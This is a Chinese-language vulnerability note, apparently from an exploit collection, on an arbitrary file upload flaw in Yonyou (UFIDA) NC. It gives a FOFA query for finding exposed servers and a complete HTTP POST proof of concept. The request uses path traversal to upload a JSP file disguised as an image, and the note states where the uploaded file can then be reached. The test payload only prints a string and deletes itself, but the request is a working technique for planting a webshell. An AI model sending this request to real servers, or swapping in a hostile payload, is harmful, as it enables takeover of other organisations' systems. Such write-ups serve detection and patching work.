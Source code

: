 **fofa**

```
app="用友-UFIDA-NC"
```

**一、漏洞简述**

用友NC以“全球化集团管控、行业化解决方案、全程化电子商务、平台化应用集成”的管理业务理念而设计，采用J2EE架构和先进开放的集团级开发平台UAP，形成了集团管控8大领域15大行业68个细分行业的解决方案，是中国大企业集团管理信息化应用系统的首选。其接口/uploadControl/uploadFile存在任意文件上传漏洞，攻击者可通过上传恶意木马，控制服务器。

**二、漏洞检测poc**

```yaml

POST /mp/initcfg/../uploadControl/uploadFile HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei
Connection: close
Content-Length: 370

------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="file"; filename="sys_log.jsp"
Content-Type: image/jpeg

<% out.println("HelloWorldTest");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundarygcflwtei
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundarygcflwtei--
```

/mp/uploadFileDir/sys_log.jsp